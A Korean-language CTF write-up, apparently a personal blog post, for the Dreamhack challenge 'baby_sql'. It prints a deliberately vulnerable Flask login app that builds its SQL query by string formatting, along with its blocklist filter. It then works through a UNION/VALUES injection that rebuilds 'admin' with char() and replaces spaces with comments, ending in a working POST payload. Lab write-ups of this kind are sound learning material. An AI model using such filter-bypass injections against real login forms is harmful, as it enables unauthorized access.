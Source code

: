 ```yaml
---
title: baby_sql
author: sally
date: 2024-01-19 01:04:00 +0900
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240119/
---
```


## 문제
![login](baby_sql/login.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
  top = _app_ctx_stack.top
  if not hasattr(top, 'sqlite_db'):
    top.sqlite_db = sqlite3.connect(DATABASE)
  return top.sqlite_db


try:
  FLAG = open('./flag.txt', 'r').read()
except:
  FLAG = '[**FLAG**]'


@app.route('/')
def index():
  return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
  if request.method == 'GET':
    return render_template('login.html')

  uid = request.form.get('uid', '').lower()
  upw = request.form.get('upw', '').lower()
  level = request.form.get('level', '9').lower()

  sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
  for x in sqli_filter:
    if uid.find(x) != -1:
      return 'No Hack!'
    if upw.find(x) != -1:
      return 'No Hack!'
    if level.find(x) != -1:
      return 'No Hack!'


  with app.app_context():
    conn = get_db()
    query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
    try:
      req = conn.execute(query)
      result = req.fetchone()

      if result is not None:
        uid = result[0]
        if uid == 'admin':
          return FLAG
    except:
      return 'Error!'
  return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
  top = _app_ctx_stack.top
  if hasattr(top, 'sqlite_db'):
    top.sqlite_db.close()


if __name__ == '__main__':
  os.system('rm -rf %s' % DATABASE)
  with app.app_context():
    conn = get_db()
    conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
    conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
    conn.commit()

  app.run(host='0.0.0.0', port=8001)
```

문제 파일 코드를 간단히 설명하면 다음과 같다.

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword, level)
3. ('dream','cometrue',9) 를 삽입
4. `query` 실행 후 맨 처음 값이 admin 이면 플래그 획득
5. 요청 값은 반드시 **POST** 로 보내야 함.

### 필터링
이번 문제에서는 필터링이 추가되었다.
```python
sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
```

싱글쿼터 더블쿼터랑 admin 문자열을 사용할 수 없고, 공백을 사용할 수 없다. 


## 문제 풀이
### admin 출력
문제를 보면 `admin` 계정이 없다. 
하지만 `uid`가 `admin` 인지 확인하는 코드는 없다. 
단지, query 결과문의 첫 번째 uid 값이 `admin` 인지만 확인할 뿐이다. 
따라서 `admin`이 출력되게만 하자고 생각했다.

아래의 사이트에서 간단하게 쿼리문 테스트들이 가능하다. 
- https://www.sqlitetutorial.net/tryit/query/sqlite-select/#1

sqlite는 내가 잘 모르기 때문에 진짜 웹 사이트를 전부 뒤져보다가 `values` 라는 함수를 찾을 수 있었다.
```sql
values("admin")
```

|            colomn1            |
|:-----------------------------:|
|             admin             |


### admin 필터링 우회
sqlite의 concat 은 `||` 이다. 이건 금방 찾았음.
그리고 문자는 `chr` 함수가 있었다. 이건 사이트를 하도 많이 돌아다니다가 얻어 걸렸다. 
```sql
values(char(97)||char(100)||char(109)||char(105)||char(110))
```

|            colomn1            |
|:-----------------------------:|
|             admin             |

### uid 컬럼
uid 컬럼명을 세팅해주어야 하는데 기존 쿼리문은 다음과 같다.
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
```

두 쿼리문의 결과를 합쳐주는 `union` 을 사용해주자.

- uid = "' union values(char(97)||char(100)||char(109)||char(105)||char(110))--"
```sql
SELECT uid FROM users WHERE uid='' union values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level}; 
```

|  uid   |
|:------:|
| admin  |

### space 우회
이건 제로가 알려준 `/**/`를 사용했다.
```sql
SELECT uid FROM users WHERE uid=''/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))--' and upw='{upw}' and level={level};
```

|  uid   |
|:------:|
| admin  |

### 싱글쿼터 우회
마지막으로 싱글쿼터 우회가 하나 남았다. 
코드를 보면 level 에서는 싱글쿼터를 사용하지 않기 때문에 그냥 싱글쿼터 없이 써주면 된다.
뒤에 주석은 필터링이 없어서 써도 되는데 어차피 쿼리 마지막 부분이라 굳이 주석 쓸 필요가 없다. 
```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level=999/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110));
```

### POST
#### 사용 툴
- Burp Suite Community Edition

POST 값을 확인하고 수정하기 위해서 위의 툴을 사용하였다.

![1](baby_sql/burpsuite1.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

level 값이 없기 때문에 추가해서 사용해주면 된다. 

![2](baby_sql/burpsuite2.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

```
uid=abc&upw=def&level=999/**/UNION/**/values(char(97)||char(100)||char(109)||char(105)||char(110))
```

플래그를 획득할 수 있었다.
